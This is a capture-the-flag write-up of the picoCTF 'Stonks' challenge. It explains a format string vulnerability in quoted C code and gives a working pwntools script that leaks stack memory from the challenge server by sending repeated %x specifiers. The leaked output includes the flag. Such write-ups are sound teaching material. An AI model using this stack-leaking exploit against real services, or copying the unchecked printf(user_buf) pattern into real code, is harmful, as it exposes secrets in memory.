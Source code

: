 # Stonks

Reading through the `vuln.c` file, what immediately seems interesting is the `buy_stonks` function.
In this snippet, we see that `api_buf` is read from a file; we need some way to view this data.

```c
// buy_stonks:
    char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("...");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);
```

Going further down the function we see a snippet that reads a token from user input.

```c
    char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);
```

This feels like the most optimal place to exploit. Initially, I thought this could be a buffer overflow
vulnerability that we could somehow use to dump our stack. Turns out its a lot simpler than that.
C leaves room for arbitrary user input to get interpreted as a format argument when we `printf(user_buf)`.
This is called a [Format String Vulnerability](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/). We can leverage this to dump the stack by providing arbitrary
format arguments. 

I took inspiration from [this writeup](https://ctftime.org/writeup/28935) on stonks and wrote a script
with [`pwntools`](https://pwntools.com).

```py
from pwn import *

r = remote("mercury.picoctf.net", "6989")

# the format arguments we use to dump the stack
# %x will output an integer (32-bit) in hex form, so we just send a load
# of %x's to dump as much of the stack as we can.
format_string = '-'.join(["%x" for _ in range(0, 32)])

# we don't really need to wait cuz our input will be buffered anyway
r.send(b"1\n")
r.send(bytes(format_string + '\n', encoding="ascii"))

# skip till the line relevant to us
_ = r.recvuntil("Buying stonks with token:\n")
out = r.recvline()

stack = b""

# now we have our stack data, we can interpret it as ascii and print what we find
for int32 in out.decode().split('-'):
    stack += p32(int(int32, 16))

print(stack.decode(encoding="ascii",))
```

Here's the output after running the script

```
►��     ����-������☺`�� ►☺���-�����     ☻���    ►��     picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}������@♦��h?i☺�����►���%��
[*] Closed connection to mercury.picoctf.net port 6989
```

Which has our flag!
